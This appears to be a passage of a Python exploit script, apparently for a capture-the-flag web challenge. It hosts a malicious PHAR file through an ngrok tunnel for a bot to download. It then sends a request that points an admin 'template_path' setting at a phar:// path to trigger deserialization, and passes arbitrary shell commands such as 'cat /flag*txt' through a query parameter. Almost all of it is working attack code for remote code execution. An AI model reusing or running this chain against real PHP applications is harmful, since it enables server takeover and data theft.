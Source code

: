 ```python
    PHAR_DOWNLOADED= True

    return send_file(PHAR_FILE, mimetype='application/octet-stream')

@app.route('/')
def serve_index():
    print('[+] Bot accessed the landing page.')
    with open('index.html', 'r') as f:
        html_template =  f.read()

    phar_name = os.path.basename(PHAR_FILE)
    html_template = html_template.replace('__PHAR_NAME__', phar_name)

    return Response(html_template, mimetype='text/html')

def start_ngrok(port):
    global NGROK_PROCESS, NGROK_PUBLIC_URL
    NGROK_PROCESS = subprocess.Popen(['ngrok', 'http', str(port)], stdout=subprocess.DEVNULL)
    print("[*] Starting ngrok...")

    time.sleep(2)
    try:
        tunnels = requests.get("http://127.0.0.1:4040/api/tunnels").json()['tunnels']
        NGROK_PUBLIC_URL = tunnels[0]['public_url']
        print(f"[*] Ngrok tunnel started at: {NGROK_PUBLIC_URL}")
    except Exception as e:
        print("[!] Failed to retrieve ngrok URL:", e)
        sys.exit(1)

def validate_args():
    global TARGET_URL, PHAR_FILE, CMD

    parser = argparse.ArgumentParser()
    parser.add_argument('--target', help='Url challenge', default="http://localhost:1337")
    parser.add_argument('--phar', default="./poc.phar", help='Phar Location')
    parser.add_argument('--cmd', default="cat /flag*txt", help='Command')

    args = parser.parse_args()
    PHAR_FILE = args.phar
    TARGET_URL = args.target
    CMD = args.cmd

def update_settings():
    print('[*] Sending request to update template_path (phar exploit injection).')

    phar_name = os.path.basename(PHAR_FILE)
    data = {
        "template_path":"phar:///var/www/Downloads/" + phar_name
    }
    response = requests.post(TARGET_URL + "/api/admin/appSettings", json=data)
    print(f'[+] Server responded: {response.status_code} - {response.text[:50]}')

def get_flag():
    print(f'[*] Sending command: {CMD}')

    query = {
        "c": CMD
    }
    response = requests.get(url=TARGET_URL, params=query)
    
    if response.status_code == 200 and 'Exploit' in response.text:
        print('[+] Exploit executed successfully. Server response:')
        print(response.text)
```